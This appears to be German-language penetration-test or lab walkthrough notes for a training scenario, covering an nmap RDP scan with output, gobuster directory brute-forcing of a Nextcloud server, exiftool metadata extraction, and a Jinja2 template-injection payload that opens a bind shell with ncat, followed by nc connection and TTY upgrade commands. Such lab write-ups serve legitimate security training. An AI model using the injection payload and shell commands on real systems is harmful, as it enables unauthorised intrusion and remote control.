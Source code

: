             - [NVD - cve-2019-0708](https://nvd.nist.gov/vuln/detail/cve-2019-0708)
            - .
                ```
                nmap -P0 -p 3389 --script rdp-enum-encryption 10.181.0.144
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-18 16:00 CET
Nmap scan report for 10.181.0.144
Host is up (0.014s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
| rdp-enum-encryption: 
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|     Native RDP: SUCCESS
|     RDSTLS: SUCCESS
|     SSL: SUCCESS
|   RDP Encryption level: Client Compatible
|     40-bit RC4: SUCCESS
|     56-bit RC4: SUCCESS
|     128-bit RC4: SUCCESS
|     FIPS 140-1: SUCCESS
|_  RDP Protocol Version:  RDP 5.x, 6.x, 7.x, or 8.x server

Nmap done: 1 IP address (1 host up) scanned in 13.12 seconds 
                ```
            - Man kann die Benutzerauswahl aufrufen & Sicherheitsprotokoll erzwingen
                - `xfreerdp /sec:rdp /v:10.183.0.144 /u:` 
    - Nextcloud 
        - webserver root directory feststellen
        - erkennen, dass paths ausgeliefert werden
        - gobuster rüber fahren lassen
            - `gobuster dir -e --extensions=html,txt -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 10 --url=http://10.183.0.114/data/santa/files/`
            - Nicht zu viele Threads nutzen
        - Das Verzeichnis mit den Bildern finden
            - Dort nach vorgegebenen Format nochmal mit gobuster rüber knattern
            - dann bei den bildern nach metadaten suchen: `exiftool -F ./pictures/ -w metadata`    
    - Jukebox 
        - Jinja Template Injection: [Jinja2 SSTI - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti?isPin=false?aliasId=EjKyScx2bQumP3OXE) (via url parameter)
            - bind shell:
                - victim:
                    - `{{ ().__class__.__base__.__subclasses__()[107].load_module("os").popen("ncat --exec /bin/bash -l 4444").read() }}`
                - attacker:
                    - `nc jukebox.user.scenario.cip.institute 4444` (`-k` for multiple connections)
                    - Full TTY: [Full TTYs - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys?isPin=false?aliasId=HZA5ygURlV8ZHzWU3)
                        - .
                            ```
                            ```
python3 -c 'import pty; pty.spawn("/bin/bash")'

